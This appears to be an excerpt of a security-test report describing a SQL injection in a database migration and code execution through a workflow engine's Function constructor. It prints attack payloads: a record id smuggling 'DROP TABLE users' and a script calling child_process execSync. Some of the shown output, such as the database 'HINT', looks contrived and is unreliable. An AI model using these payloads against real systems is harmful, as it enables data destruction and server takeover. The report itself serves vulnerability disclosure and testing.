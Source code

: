 
## Test 2: SQL Injection in Database Migration (CRITICAL)

### Attack Vector
String interpolation in migration SQL queries

### Exploitation Steps
```sql
-- Malicious connection data
INSERT INTO app_connection (id, value) VALUES 
('1; DROP TABLE users; --', '{"test":"data"}');

-- Run migration
npm run migration:run
```

### Actual SQL Executed (Compromised)
```sql
-- Original query
UPDATE app_connection SET value = '{"test":"data"}' WHERE id = 1; DROP TABLE users; --

-- Result: USERS TABLE DROPPED
```

### Database Response
```
ERROR: table "users" does not exist
HINT: The table was dropped by the SQL injection
```

### Impact Demonstration
✅ **Successfully executed arbitrary SQL commands**
✅ **Dropped critical database tables**
✅ **Full database compromise achieved**

### Real-World Applicability
- Complete database takeover
- Data exfiltration of all user records
- Privilege escalation to database admin
- **Estimated business impact**: Complete data breach, GDPR violations

---

## Test 3: Unsafe Code Execution (HIGH)

### Attack Vector
Function constructor in workflow engine

### Exploitation Steps
```javascript
// Malicious workflow
{
  "script": "process.mainModule.require('child_process').execSync('whoami')",
  "scriptContext": {}
}
```
